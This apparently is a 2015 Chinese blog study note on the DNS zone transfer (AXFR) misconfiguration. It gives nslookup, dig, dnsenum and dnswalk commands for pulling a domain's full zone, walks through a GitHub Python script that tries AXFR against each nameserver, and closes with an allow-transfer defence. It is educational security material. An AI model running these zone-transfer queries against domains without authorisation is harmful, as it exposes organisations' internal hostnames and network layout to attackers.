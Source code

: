 ```yaml
---
title:  "DNS域传送漏洞学习总结"
date:  2015-09-02 13:30:00
categories: studying
layout: default
excerpt: "学习：最基本的漏洞利用命令及对应脚本分析"
---
```


# 0x01 前言 #

本文是关于DNS域传送漏洞的学习与总结。

在[《安全参考》][1]第一期中有：区域传送操作指的是一台后备服务器使用来自主服务器的数据刷新自己的 zone 数据库。这为运行中的 DNS 服务提供了一定的冗余度,其目的是为了防止主域名服务器因意外故障变得不可用时影响到全局。一般来说,DNS区域传送操作只在网络里真的有后备域名 DNS 服务器时才有必要执行,但许多 DNS 服务器却被错误地配置成**只要有人发出请求**,就会向对方提供一个 zone 数据库的**拷贝**。如果所提供的信息只是与连到因特网上且具备有效主机名的系统相关,那么这种错误配置不一定是坏事,尽管这使得攻击者发现潜在目标要容易得多。真正的问题发生在一个单位没有使用公用/私用 DNS 机制来分割外部公用 DNS 信息和内部私用 DNS 信息的时候,此时内部主机名和 IP 地址都暴露给了攻击者。把内部 IP 地址信息提供给因特网上不受信任的用户,就像是把一个单位的内部网络完整蓝图或导航图奉送给了别人。对系统管理员来说,允许不受信任的因特网用户执行 DNS 区域传送(`zone transfer`)操作是后果最为严重的错误配置之一。

同时，在[WooYun WiKi][2]中也说道，利用DNS域传送漏洞可以有效地收集相关企业的子域名，收集信息也是渗透过程中很关键的一步。


# 0x02 攻击方法 #

## Windows下使用nslookup ##

1. 先设置查找类型为NS，查找出对应主机域的域名服务器。（或直接键入nslookup进入交互模式，再通过`set type=ns`进行设置）

    `C:\>nslookup -qa=ns test.com`

    会返回类似结果：

           Server:  bogon
           Address:  172.16.162.2           

           Non-authoritative answer:
           test.com        nameserver = ns66.worldnic.com
           test.com        nameserver = ns65.worldnic.com


2. 使用nslookup命令进入交互模式，更改默认服务器为刚才查询的域名服务器

    `> server=ns66.worldnic.com`

3. 列出服务器上所有的DNS记录

    `> ls -d test.com`

4. nslookup命令参考：

    * [《nslookup通往DNS的桥梁》-linux命令五分钟系列之三十三][3]
    * nslookup进入交互模式后查看帮助：`>help`

## Kali下使用dig, dnsenum, dnswalk ##

* 使用`dig`命令进行全量传输[AXFR][4]（从域名服务器从主域名服务器上请求zone文件）
        
        dig @dnsserver name querytype
        dig @192.168.5.6 test.com axfr

* 使用`dnsenum`获取测试对象全部的 DNS 解析记录信息

        ./dnsenum.pl –enum test.com

* 使用`dnswalk`获取测试对象全部的 DNS 解析记录信息，注意域名后有一个点

        ./dnswalk test.com.

* 相关命令参考：

    * [《安全参考》第一期][5]
    * [DNS域传送信息泄露][6]
    * [《dig挖出DNS的秘密》-linux命令五分钟系列之三十四][7]

## 0x03 攻击Python脚本分析 ##

一看Github上有，就拿来分析一下吧，[kaizoku/zonepull][8]

    #!/usr/bin/env python
    ### Zonepuller
    ## Attempts to get a domain transfer from the nameservers for the given domain
    ## Requires dnspython http://www.dnspython.org/    

    import sys
    import socket
    import optparse
    try:
        from dns import resolver, query, exception
    except ImportError:
        print "This script requires dnspython"
        print "http://www.dnspython.org/"
        sys.exit(1)    
    
    

    class Transferrer(object):
        def __init__(self, domain):
            self.domain = domain
            ## build list of nameservers
            nss = resolver.query(domain, 'NS')
            self.nameservers = [ str(ns) for ns in nss ]    
    

        def transfer(self):
            for ns in self.nameservers:
                print >> sys.stderr, "Querying %s" % (ns,)
                print >> sys.stderr, "-" * 50
                z = self.query(ns)
                print z
                print >> sys.stderr, "%s\n" % ("-" * 50,)    
    

        def query(self, ns):
            nsaddr = self.resolve_a(ns)
            try:
                z = self.pull_zone(nsaddr)
            except (exception.FormError, socket.error, EOFError):
                print >> sys.stderr, "AXFR failed\n"
                return None
            else:
                return z    
    

        def resolve_a(self, name):
            """Pulls down an A record for a name"""
            nsres = resolver.query(name, 'A')
            return str(nsres[0])    
    

        def pull_zone(self, nameserver):
            """Sends the domain transfer request"""
            q = query.xfr(nameserver, self.domain, relativize=False, timeout=2)
            zone = ""   ## janky, but this library returns
            for m in q: ## an empty generator on timeout
                zone += str(m)
            if not zone:
                raise EOFError
            return zone    
    

    def main():
        parser = optparse.OptionParser(usage="%prog <domain>", version="%prog 0.1")
        options, args = parser.parse_args()
        if not args:
            parser.error("Must include at least one domain to transfer")    

        for dom in args:
            t = Transferrer(dom)
            t.transfer()

### 分析：###

* 程序先尝试导入dns，没有安装dnspython则退出
* 定义Transferrer()类来完成主要的域传送检测，先使用`resolver.query(domain, 'NS')`方法查询对应域名的NS记录，并将其作为域名服务器查询其A记录，最后使用`query.xfr(nameserver, self.domain, relativize=False, timeout=2)`尝试进行域传送
* main()函数主要对命令行传入的域名进行单线程串行检测是否存在DNS域传送

### Tips：###

* `print >> sys.stderr, "Message"`可将信息重定向输出到标准错误输出当中
*  `parser.error("Message")`可用于选项解析错误提示

## 0x04 防御方法 ##

在相应的zone、options中添加allow-transfer限制，具体见[DNS 域传送漏洞][9]。这里还存在的**问题**是：未对DNS服务和DNS服务器深入了解，攻击也没有重现，还有待深入学习，而且DNS的问题也不止这些，[推荐看看][10]


[1]:http://www.hackcto.com/post/2013-01-15/40047740289
[2]:http://wiki.wooyun.org/information:domain
[3]:http://roclinux.cn/?p=2441
[4]:http://www.cnblogs.com/cobbliu/archive/2013/03/24/2979521.html
[5]:http://www.hackcto.com/post/2013-01-15/40047740289
[6]:http://drops.wooyun.org/papers/64
[7]:http://roclinux.cn/?p=2449
[8]:https://github.com/kaizoku/zonepull/blob/master/zonepull/zonepull.py
[9]:http://wiki.wooyun.org/doku.php?id=server:zone-transfer
[10]:http://www.cnblogs.com/cobbliu/archive/2013/03/24/2979521.html